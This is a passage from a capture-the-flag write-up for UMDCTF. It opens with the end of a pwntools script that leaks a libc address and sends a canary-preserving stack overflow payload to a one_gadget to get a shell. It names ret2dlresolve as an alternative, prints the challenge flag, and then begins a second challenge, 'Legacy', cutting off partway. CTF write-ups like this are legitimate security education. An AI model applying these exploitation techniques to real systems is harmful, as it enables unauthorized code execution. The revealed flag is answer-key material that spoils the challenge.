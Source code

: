```python:solve.py
    leak = int(r.recv(12), 16)
    # compute libc base address
    libc.address = leak - libc.sym._IO_2_1_stdout_
    print(hex(libc.address))
    # one_gadget found from command line
    one_gadget = p64(libc.address + 0xe3b31)
    r.sendlineafter(b'?\n', b'a' * 72 + p64(canary) + b'a' * 8 + one_gadget)

def main():
    r = conn()
    ret2libc(r)
    # ret2dlres(r)
    r.interactive()

if __name__ == "__main__":
    main()
```

As you can see there is also another exploit in the script. After I solved the challenge I wondered if there was another method that didn't involve finding the right libc. After a short search I realized that ret2dlresolve was what I needed. Here some references about it:

+ <https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html>
+ <https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve>

🏁 _UMDCTF{H3r3_W3_G0_AgAIn_an0thEr_RET2LIBC}_{: .spoiler}

## Legacy

> _Fred just won't keep up with the times. Why don't you show him the error of his ways?_

This challenge don't have attachments, so the only thing we can do is to connect to the given address.

```text
I bet you can't guess my *secret* number!
I'll give you hint, its between 0 and 0,1000000000000000514!
```

The program asks us to guess a secret number. Let's try to play fairly:

```text
0,1     <-- our input1
0,01    <-- our input2
0,001   <-- our input3
3 chances left!
2 chances left!
1 chances left!
Deprecated shmeprecated!
Python 2 will never die!
```

Ok we couldn't guess correctly. At the end we receive also a strange message referring to python2 deprecation, maybe this will be useful. Now we can try non-numerical inputs:

